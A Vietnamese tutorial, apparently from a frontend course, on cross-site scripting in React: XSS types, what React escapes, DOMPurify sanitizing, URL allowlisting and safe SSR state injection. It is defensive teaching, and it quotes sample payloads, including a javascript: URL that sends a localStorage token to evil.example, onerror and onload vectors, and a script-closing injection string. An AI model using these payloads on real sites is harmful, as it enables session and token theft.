


## Bối cảnh & vấn đề

Một nền tảng thương mại điện tử cho merchant tự viết mô tả sản phẩm bằng trình soạn thảo rich text. Để hiển thị đúng định dạng, component frontend dùng `dangerouslySetInnerHTML`. Một tài khoản merchant bị chiếm (mật khẩu yếu), và kẻ tấn công thêm vào mô tả một thẻ ảnh "hỏng":

```html

```

Mỗi khách xem sản phẩm đó đều chạy đoạn script này **trong origin của shop**: đọc token trong `localStorage`, đọc cookie không `HttpOnly`, gọi API đặt hàng hay đổi địa chỉ giao hàng nhân danh khách. Đây là **stored XSS**, loại lỗ hổng mà nhiều người nghĩ React đã "giải quyết".

React thật sự chặn được phần lớn XSS phổ biến nhờ **escape mặc định**, nhưng nó có những lối thoát được đặt tên rõ ràng (`dangerouslySetInnerHTML`) và những lối thoát ít rõ ràng hơn (URL trong `href`, HTML khi SSR, thư viện thao tác DOM trực tiếp). Bài này giải thích XSS là gì, React bảo vệ đúng tới đâu (chạy thật), và cách sửa từng loại. Lớp phòng thủ thứ hai (CSP, Trusted Types) ở [bài CSP](/tracks/browser-web-perf/learn/csp-security-baseline).

**Interview angle:** câu "kể ba cách bị XSS trong app React dù JSX đã escape" là câu kiểm tra thực chiến kinh điển.

## Khái niệm

### XSS là gì và vì sao nguy hiểm

**Cross-Site Scripting (XSS)** là khi dữ liệu do kẻ tấn công kiểm soát được trình duyệt **thực thi như code** trong origin của bạn. Một khi script chạy trong origin, nó có mọi quyền mà code của bạn có: đọc DOM (kể cả form mật khẩu), đọc Web Storage, gọi API với cookie session của người dùng (trình duyệt tự đính cookie), thay đổi giao diện để lừa đảo. Same-Origin Policy không giúp gì vì script **đã ở trong** origin.

### Ba loại XSS

- **Stored XSS**: payload được **lưu** (database, CMS, comment) rồi hiển thị cho người khác. Ảnh hưởng mọi người xem. Ví dụ: mô tả sản phẩm ở trên.
- **Reflected XSS**: payload nằm trong **request** (query string, form) và server **phản chiếu** vào response. Kẻ tấn công gửi link cho nạn nhân. Ví dụ: `/search?q=<script>...` được server render thẳng vào HTML.
- **DOM-based XSS**: payload không qua server; **JS phía client** đọc dữ liệu từ một **source** (`location.hash`, `location.search`, `postMessage`, `document.referrer`) và đưa vào một **sink** nguy hiểm. Ví dụ: `el.innerHTML = decodeURIComponent(location.hash.slice(1))`.

### Source và sink

**Source** là nơi dữ liệu không tin cậy đi vào (URL, input, API response, storage, `postMessage`). **Sink** là API có thể biến chuỗi thành code hoặc HTML: `innerHTML`, `outerHTML`, `insertAdjacentHTML`, `document.write`, `eval`, `new Function`, `setTimeout(string)`, `script.src`, `iframe.srcdoc`, thuộc tính URL (`a.href`, `iframe.src`, `location` = ...) với scheme `javascript:`. Phòng XSS về bản chất là **không để source chảy vào sink mà chưa được xử lý đúng ngữ cảnh**.

### React escape những gì

Khi bạn viết `<div>{userInput}</div>`, React đặt giá trị như **text node** (`textContent` khi client render, escape `<`, `>`, `&`, `'`, `"` khi SSR). Chuỗi `` hiện ra dưới dạng chữ, không bao giờ thành thẻ. Thuộc tính cũng được set qua DOM API hoặc escape đúng ngữ cảnh attribute, nên `title={userInput}` không phá được ra ngoài dấu nháy. Đây là lý do "code React thuần" hiếm khi có XSS.

### React không bảo vệ những gì

- **`dangerouslySetInnerHTML={{ __html }}`**: đưa chuỗi thẳng vào `innerHTML`. Tên hàm là lời cảnh báo.
- **URL trong thuộc tính**: `href`, `src`, `action`, `formAction` nhận `javascript:` URL. React 16.9 bắt đầu **cảnh báo**; React 19 **chặn** `javascript:` URL (thay bằng một URL ném lỗi). Nhưng `data:` URL và các sink ngoài React (`window.location = url`, `window.open(url)`) không được bảo vệ.
- **Truy cập DOM trực tiếp**: `ref.current.innerHTML = ...`, `document.querySelector(...).insertAdjacentHTML(...)`.
- **`eval`/`new Function`/`setTimeout(string)`** với dữ liệu người dùng.
- **SSR inject state vào `<script>`**: `<script>window.__STATE__ = ${JSON.stringify(state)}</script>`, chuỗi `</script>` trong dữ liệu đóng thẻ script sớm.
- **Thư viện bên thứ ba** thao tác DOM (editor, chart tooltip, markdown renderer cấu hình cho phép HTML).
- **Spread props từ dữ liệu người dùng**: `<div {...userControlledProps} />` cho phép kẻ tấn công truyền `dangerouslySetInnerHTML` hoặc `href`.

### Sanitize và DOMPurify

**Sanitize** là **phân tích HTML thành DOM** rồi chỉ giữ lại các tag/attribute nằm trong **allowlist**, bỏ mọi event handler (`on*`), URL nguy hiểm, `<script>`, `<iframe>`. Không được làm bằng regex: HTML có quá nhiều cách viết (chữ hoa/thường, encode, SVG/MathML namespace, mutation XSS khi trình duyệt "sửa" markup). **DOMPurify** (của Cure53) dùng chính parser của trình duyệt (hoặc jsdom trên server) và là lựa chọn tiêu chuẩn.

**Interview angle:** red flag là "escape thẻ `<script>` bằng regex là đủ". Payload phổ biến nhất không có thẻ `<script>` nào: ``, `<svg onload>`, `<a href="javascript:">`.

## Cơ chế hoạt động

Luồng của một stored XSS qua CMS và các điểm có thể chặn:



Sơ đồ có **nhiều lớp**: validate/sanitize khi lưu (server), sanitize khi render (client), CSP chặn thực thi inline, Trusted Types chặn gán chuỗi vào sink. Mỗi lớp có thể bị lỗi riêng; phòng thủ tốt là có ít nhất hai lớp. Và nhánh "`{html}` trong JSX" cho thấy lựa chọn an toàn nhất: nếu không thật sự cần HTML, đừng render HTML.

Luồng DOM-based XSS qua URL:



## Ví dụ thực tế

### React escape và chặn gì: chạy thật

```ts
import { createElement as h } from 'react';
import { renderToString } from 'react-dom/server';

const url = "javascript:fetch('https://evil.example/?t='+localStorage.token)";
renderToString(h('a', { href: url, target: '_blank' }, 'Visit website'));
renderToString(h('a', { href: 'JaVaScRiPt:alert(1)' }, 'x'));
renderToString(h('a', { href: ' javascript:alert(1)' }, 'leading space'));
renderToString(h('a', { href: 'data:text/html,<script>alert(1)</script>' }, 'data url'));
renderToString(h('iframe', { src: 'javascript:alert(1)' }));
renderToString(h('div', null, ''));
```

Output thật (React 19.3.0, Node 24):

```text
<a href="javascript:throw new Error(&#x27;React has blocked a javascript: URL as a security precaution.&#x27;)" target="_blank">Visit website</a>
<a href="javascript:throw new Error(&#x27;React has blocked a javascript: URL as a security precaution.&#x27;)">x</a>
<a href="javascript:throw new Error(&#x27;React has blocked a javascript: URL as a security precaution.&#x27;)">leading space</a>
<a href="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;">data url</a>
<iframe src="javascript:throw new Error(&#x27;React has blocked a javascript: URL as a security precaution.&#x27;)"></iframe>
<div>&lt;img src=x onerror=alert(1)&gt;</div>
```

React 19 nhận ra `javascript:` kể cả khi viết hoa lẫn lộn hay có khoảng trắng đầu, trong cả `href` và `iframe src`. Text con được escape thành `&lt;img...`. Nhưng `data:` URL **đi qua nguyên vẹn**. Trình duyệt hiện đại chặn điều hướng top-level tới `data:` URL từ link, nhưng đừng dựa vào điều đó: `data:` trong `iframe src`, `object data` hay các sink khác vẫn là rủi ro. Cách đúng là **allowlist scheme**:

```tsx
function safeHttpUrl(input: string): string | undefined {
  try {
    const u = new URL(input, 'https://placeholder.invalid');   // parse, không regex
    return u.protocol === 'https:' || u.protocol === 'http:' ? u.href : undefined;
  } catch {
    return undefined;
  }
}

function ProfileLink({ url }: { url: string }) {
  const href = safeHttpUrl(url);
  if (!href) return <span>Website không hợp lệ</span>;
  return (
    <a href={href} target="_blank" rel="noopener noreferrer">
      {new URL(href).hostname}                 {/* hiển thị domain để người dùng thấy đi đâu */}
    </a>
  );
}
```

Validate **cả khi lưu** ở server (từ chối URL không phải http/https), không chỉ khi render. `rel="noopener"`: trình duyệt hiện đại đã mặc định `noopener` cho `target="_blank"`, nhưng giữ thuộc tính cho trình duyệt cũ; `noreferrer` để không lộ URL trang hiện tại.

### Sanitize HTML từ CMS: output thật của DOMPurify

```ts
import { JSDOM } from 'jsdom';
import createDOMPurify from 'dompurify';
const DOMPurify = createDOMPurify(new JSDOM('').window);

DOMPurify.sanitize(`<p>Bàn phím <b>cơ</b> </p>`);
DOMPurify.sanitize(`<a href="javascript:alert(1)">Xem thêm</a><script>alert(2)</script>`);
DOMPurify.sanitize(`<svg><g onload="alert(3)"></g></svg><iframe src="//evil.example"></iframe>`);
DOMPurify.sanitize(input + '<ul><li style="x">ok</li></ul>',
  { ALLOWED_TAGS: ['p', 'b', 'i', 'ul', 'li', 'a'], ALLOWED_ATTR: ['href'] });
```

Output thật (DOMPurify 3.4.16 + jsdom 30):

```text
"<p>Bàn phím <b>cơ</b> </p>"
"<a>Xem thêm</a>"
"<svg><g></g></svg>"
strict cfg: "<p>Bàn phím <b>cơ</b> </p><ul><li>ok</li></ul>"
```

`onerror`, `javascript:` href, `<script>`, `onload` và `<iframe>` đều bị bỏ; nội dung định dạng hợp lệ được giữ. Cấu hình allowlist chặt (`ALLOWED_TAGS`) còn bỏ luôn `` và `style`, phù hợp khi mô tả sản phẩm chỉ cần định dạng chữ.

Component sau khi sửa:

```tsx
import DOMPurify from 'dompurify';

const PRODUCT_HTML = { ALLOWED_TAGS: ['p', 'b', 'strong', 'i', 'em', 'ul', 'ol', 'li', 'br', 'h3', 'a'],
                       ALLOWED_ATTR: ['href'], ALLOWED_URI_REGEXP: /^https?:/i };

export function ProductDescription({ html }: { html: string }) {
  const clean = DOMPurify.sanitize(html, PRODUCT_HTML);   // sanitize NGAY TRƯỚC khi render
  return <div className="prose" dangerouslySetInnerHTML={{ __html: clean }} />;
}
```

### Sanitize rồi biến đổi tiếp: lỗi thật

```ts
const clean = DOMPurify.sanitize('<p>&lt;img src=x onerror=alert(4)&gt;</p>');
const mutated = clean.replace(/&lt;/g, '<').replace(/&gt;/g, '>');   // "unescape" để hiển thị đẹp
```

Output thật:

```text
sanitized: <p>&lt;img src=x onerror=alert(4)&gt;</p>
after "unescape" step: <p></p>
```

Đầu vào chỉ là **text** trông giống thẻ `img`, DOMPurify giữ nó ở dạng entity (đúng). Một bước xử lý chuỗi **sau** sanitize (unescape entity, thay template, markdown → HTML, cắt chuỗi để làm excerpt) đã biến text thành markup thật. Quy tắc: sanitize là bước **cuối cùng** trước sink; mọi biến đổi làm trước sanitize.

### SSR: inject state vào script

```ts
const state = { name: '</script><script>alert(1)</script>' };
// ❌
`<script>window.__STATE__=${JSON.stringify(state)}</script>`;
// ✅ escape '<' để chuỗi không thể đóng thẻ script
`<script>window.__STATE__=${JSON.stringify(state).replace(/</g, '\\u003c')}</script>`;
```

Output thật:

```text
naive SSR state: <script>window.__STATE__={"name":"</script><script>alert(1)</script>"}</script>
safe SSR state:  <script>window.__STATE__={"name":"\u003c/script>\u003cscript>alert(1)\u003c/script>"}</script>
```

Bản đầu, parser HTML thấy `</script>` và đóng thẻ, rồi chạy `<script>alert(1)</script>`. `JSON.stringify` **không** escape `<` vì JSON không cần. Dùng thư viện như `serialize-javascript`, hoặc để framework (Next.js) tự làm việc này.

## Trade-offs & lựa chọn thay thế

| Cách hiển thị nội dung người dùng | An toàn | Linh hoạt | Chi phí |
|---|---|---|---|
| Text thuần trong JSX (`{text}`) | Cao nhất | Không định dạng | Không |
| Markdown → React element (không cho HTML thô) | Cao | Định dạng cơ bản | Thư viện markdown, cấu hình tắt HTML |
| Lưu dạng cấu trúc (JSON AST của editor) → render bằng component | Cao | Tốt, kiểm soát được | Cần thiết kế schema |
| HTML + DOMPurify allowlist chặt khi render | Tốt | Cao | ~20 KB lib, phải cập nhật thường xuyên |
| HTML + sanitize chỉ khi lưu ở server | Trung bình | Cao | Dữ liệu cũ/nhập đường khác không được sanitize |
| HTML thô | Không | Cao nhất | Lỗ hổng |

| Loại XSS | Nơi sửa chính | Lớp thứ hai |
|---|---|---|
| Stored | Sanitize khi render (và khi lưu), hoặc bỏ HTML | CSP, Trusted Types |
| Reflected | Encode theo ngữ cảnh ở server, framework template | CSP |
| DOM-based | Không đưa source vào sink; allowlist URL | Trusted Types |

Chọn: nếu có thể, **đừng render HTML**: lưu nội dung dạng cấu trúc (editor như Lexical, Tiptap, Slate xuất JSON) và render bằng component. Nếu buộc phải nhận HTML (nội dung cũ, import từ hệ thống khác), sanitize bằng DOMPurify với allowlist **chặt nhất có thể**, ngay trước khi render, và giữ bản gốc trong DB để có thể sanitize lại khi luật thay đổi. Luôn thêm CSP và Trusted Types làm lớp thứ hai.

## Edge cases & failure modes

- **Mutation XSS (mXSS)**: HTML "an toàn" sau sanitize bị trình duyệt parse lại thành dạng khác khi gán vào `innerHTML` (đặc biệt với SVG/MathML, `<noscript>`, `<template>`). DOMPurify xử lý nhiều trường hợp, nhưng cần luôn cập nhật phiên bản.
- **Sanitize trên server bằng parser khác trình duyệt**: parser server và trình duyệt hiểu HTML khác nhau → bypass. Sanitize phía client (cùng parser với nơi render) hoặc dùng jsdom/parser chuẩn HTML5.
- **`href` động qua router**: `<Link to={userInput}>` của router có thể chấp nhận URL tuyệt đối; kiểm tra cả các component điều hướng.
- **Thư viện markdown bật HTML**: mặc định nhiều thư viện cho phép HTML thô trong markdown; phải tắt hoặc sanitize output.
- **Tooltip/label của thư viện chart**: nhiều thư viện render label bằng `innerHTML`; dữ liệu từ người dùng (tên danh mục) có thể thành XSS.
- **`postMessage` không kiểm tra `origin`**: listener nhận message từ bất kỳ cửa sổ nào rồi đưa vào DOM.
- **Payload trong JSON response bị trình duyệt đoán là HTML**: API trả `text/html` hoặc thiếu `Content-Type` + không có `X-Content-Type-Options: nosniff`.

## Pitfalls

- ❌ `dangerouslySetInnerHTML` với HTML từ CMS/người dùng không sanitize → ✅ DOMPurify allowlist chặt, hoặc render từ dạng cấu trúc.
- ❌ Lọc XSS bằng regex bỏ `<script>` → ✅ parser-based sanitizer; payload phổ biến dùng `onerror`/`onload`/`javascript:`.
- ❌ Tin React 19 đã chặn mọi URL nguy hiểm → ✅ allowlist `http:`/`https:` bằng `new URL()`; `data:` và sink ngoài React không được bảo vệ (chạy thật).
- ❌ Biến đổi chuỗi sau khi sanitize → ✅ sanitize là bước cuối trước sink (chạy thật: unescape biến text thành ``).
- ❌ `JSON.stringify` state thẳng vào `<script>` khi SSR → ✅ escape `<` (`\u003c`) hoặc dùng serializer an toàn.
- ❌ `<div {...props}>` với props từ API → ✅ chọn rõ từng prop được phép.
- ❌ Coi CSP là thay thế cho sanitize → ✅ CSP là lớp thứ hai; code vẫn phải đúng.

## Tóm tắt

- XSS = dữ liệu kẻ tấn công được thực thi như code trong origin; có mọi quyền của code bạn, kể cả gọi API bằng cookie của người dùng.
- Stored (lưu rồi hiển thị), reflected (phản chiếu từ request), DOM-based (source phía client chảy vào sink).
- React escape text và attribute; React 19 chặn `javascript:` URL trong `href`/`src` (chạy thật), nhưng không chặn `data:`, `dangerouslySetInnerHTML`, DOM trực tiếp, `eval`, JSON trong `<script>` khi SSR.
- HTML từ người dùng: tốt nhất là không render HTML; nếu phải, DOMPurify allowlist chặt ngay trước sink, không biến đổi sau đó.
- URL từ người dùng: `new URL()` + allowlist `http(s):`, validate cả khi lưu; `rel="noopener noreferrer"`.
- SSR state: escape `<` thành `\u003c`.
- Luôn có lớp thứ hai: CSP strict + Trusted Types (bài tiếp theo), cookie `HttpOnly`.
